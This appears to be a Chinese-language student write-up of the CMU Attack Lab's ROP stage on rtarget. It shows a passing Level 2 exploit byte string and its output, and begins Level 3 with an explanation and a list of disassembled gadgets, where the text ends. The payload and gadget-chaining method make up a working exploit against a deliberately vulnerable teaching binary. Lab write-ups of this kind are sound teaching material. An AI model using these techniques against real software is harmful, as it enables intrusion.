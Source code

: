 结果：

```shell
$ ./rtarget -qi rl2raw.txt
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

### Level 3

本题要求通过ROP形式来运行touch3。由于栈随机化因此无法预知字符串地址

获得栈的起始地址可以通过movq %rsp, <>命令实现

我们首先设置一个偏移量把字符串存放到rsp的相对地址，然后根据rsp的值和偏移量得出字符串的绝对地址。

farm中存在这样一个gadget

```assembly
00000000004019d6 <add_xy>:
  4019d6:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:       c3                      retq
```

我们可以先获得rsp的值传入rdi，在获得偏移量传入rsi，相加得到字符串地址再传到rdi

```assembly
0000000000401a03 <addval_190>:
  401a03:       8d 87 41 48 89 e0       lea    -0x1f76b7bf(%rdi),%eax
  401a09:       c3                      retq

00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:       c3                      retq

00000000004019ca <getval_280>:
  4019ca:       b8 29 58 90 c3          mov    $0xc3905829,%eax
  4019cf:       c3   
  
00000000004019db <getval_481>:
  4019db:       b8 5c 89 c2 90          mov    $0x90c2895c,%eax
  4019e0:       c3                      retq
  
0000000000401a6e <setval_167>:
  401a6e:       c7 07 89 d1 91 c3       movl   $0xc391d189,(%rdi)
  401a74:       c3                      retq
  
0000000000401a11 <addval_436>:
  401a11:       8d 87 89 ce 90 90       lea    -0x6f6f3177(%rdi),%eax
  401a17:       c3                      retq
  
00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:       c3                      retq
```
